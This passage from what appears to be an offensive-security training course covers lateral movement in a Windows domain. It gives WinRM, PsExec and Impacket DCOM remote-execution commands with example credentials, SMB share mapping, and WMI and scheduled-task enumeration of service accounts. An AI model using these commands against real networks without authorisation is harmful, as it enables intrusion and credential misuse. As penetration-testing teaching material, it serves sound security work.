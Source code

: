 #### Remote Execution  

- **WinRM**:  
  ```powershell
  Enable-PSRemoting -Force
  Enter-PSSession -ComputerName WS002.corp.local -Credential corp\jsmith
  ```
- **PSExec**:  
  ```powershell
  psexec \\WS002.corp.local -u corp\jsmith -p 'Password123' cmd.exe
  ```
- **DCOM (Impacket)**:  
  ```bash
  dcomexec.py corp\jsmith:Password123@10.0.0.20
  ```

### Step-by-Step Guide  

#### Scenario A: SMB Share Movement  
- Enumerate shares:  
  ```powershell
  net view \\WS002.corp.local
  ```
- Map share:  
  ```powershell
  net use Z: \\WS002.corp.local\C$ /user:corp\jsmith Password123
  ```

#### Scenario B: WMI Service Enumeration  
```powershell
Get-WmiObject -Class Win32_Service -ComputerName WS002.corp.local | Where { $_.StartName -like "corp\svc_*" } | Select Name,StartName
```

#### Scenario C: Scheduled Tasks  
```powershell
Invoke-Command -ComputerName WS002.corp.local -ScriptBlock {
  Get-ScheduledTask | Where { $_.Principal.UserId -like "corp\*" } | Select TaskName,Principal.UserId
}
```

### Common Pitfalls  
- SMB blocked by firewall.  
- Lacking local admin even with domain creds.  
- DCOM disabled.

### Next Steps  
- **Module 11**: Persistence & Cleanup  

---

## <a name="module-11"></a> Module 11: Persistence & Cleanup
